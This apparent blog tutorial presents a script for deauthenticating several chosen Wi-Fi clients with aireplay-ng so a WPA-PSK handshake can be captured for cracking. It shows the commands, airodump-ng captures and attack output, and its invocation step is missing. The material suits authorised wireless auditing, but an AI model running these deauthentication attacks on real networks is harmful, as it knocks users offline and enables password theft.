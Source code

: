 
Capturing the 4-way handshake required to crack WPA-PSK can be a bit frustrating when you can't get a client to deauthenticate and reauthenticate with the access point. One option is to deauthenticate all the clients by not providing the client's MAC address when running the deauthentication attack:

<!--more-->

```
aireplay-ng -0 1 -a 00:0F:66:XX:XX:XX mon0
```

This is a bit overkill since you might not want to knock out all the clients on the network when performing an audit. The alternative is to target different clients and hope one of them deauthenticates and reauthenticates. This can be time consuming as you'll be picking one client, trying it, then picking another if it doesn't work. 

To solve this problem, I've written a little script that lets you deauthenticate several targeted clients and increases your chances of the deauthentication attack working. 

You can grab the latest version from [GitHub](https://github.com/superkojiman/mass_deauth).

Let's take a look at a sample WPA-PSK network captured by airodump-ng:

```
 CH  6 ][ Elapsed: 11 mins ][ 2010-12-20 14:51
 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
 
 00:0F:66:XX:XX:XX  -60   4      130     3917    2   6  54   WPA  TKIP   PSK  prime2
 
 BSSID              STATION            PWR   Rate    Lost  Packets  Probes
 
 00:0F:66:XX:XX:XX  00:26:BB:XX:XX:XX  -46   54 -54     51     1716
 00:0F:66:XX:XX:XX  00:13:E8:XX:XX:XX  -46   54 -12     18      219
 00:0F:66:XX:XX:XX  00:1B:77:XX:XX:XX  -47   36 -24      0     1217
 00:0F:66:XX:XX:XX  C4:46:19:XX:XX:XX  -57    1 - 1      1      740
 00:0F:66:XX:XX:XX  00:19:D2:XX:XX:XX  -62    1 - 1      0      223
 00:0F:66:XX:XX:XX  18:E7:F4:XX:XX:XX  -65    1 - 1      0        7
```
 
 Our target access point is called prime2 and it has six clients connected to it. Let's say we want to deauthenticate the last four on that list. The fastest way to do that is to just copy and paste those lines into a file. Call it target_list.txt. It should look like this:

```
 00:0F:66:XX:XX:XX  00:1B:77:XX:XX:XX  -47   36 -24      0     1217
 00:0F:66:XX:XX:XX  C4:46:19:XX:XX:XX  -57    1 - 1      1      740
 00:0F:66:XX:XX:XX  00:19:D2:XX:XX:XX  -62    1 - 1      0      223
 00:0F:66:XX:XX:XX  18:E7:F4:XX:XX:XX  -65    1 - 1      0        7
```

Next, run mass_deauth.sh and pass it target_list.txt:

A quick explanation on what the options mean. 

* -i is the interface we're using. In this case, mon0
* -t is the file containing the clients, target_list.txt
* -a: is the access point's MAC address.
* -n is the number of deauthentication packets to send. If you don't use -n it defaults to 1. In this case, we're going to send 5 deauthentication packets.

Run the command and you should get output similar to the following for each targeted client:

```
Attempting to deauthenticate 90:4C:E5:XX:XX:XX...
Command: aireplay-ng -0 5 -a 00:0F:66:XX:XX:XX -c 90:4C:E5:XX:XX:XX mon0
14:34:15  Waiting for beacon frame (BSSID: 00:0F:66:XX:XX:XX) on channel 6
14:34:16  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [26|45 ACKs]
14:34:16  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [47|42 ACKs]
14:34:17  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [48|43 ACKs]
14:34:17  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [45|37 ACKs]
14:34:18  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [29|50 ACKs]
 
Attempting to deauthenticate C4:46:19:XX:XX:XX...
Command: aireplay-ng -0 5 -a 00:0F:66:XX:XX:XX -c C4:46:19:XX:XX:XX mon0
14:34:24  Waiting for beacon frame (BSSID: 00:0F:66:XX:XX:XX) on channel 6
14:34:25  Sending 64 directed DeAuth. STMAC: [C4:46:19:XX:XX:XX] [ 7|51 ACKs]
.
.
.
```

With any luck, at least one of the clients you targeted should have deauthenticated and reauthenticated, thus allowing you to capture the 4-way handshake. If not, give it another go and maybe increase the number of deauthentication packets sent and see if that helps. 

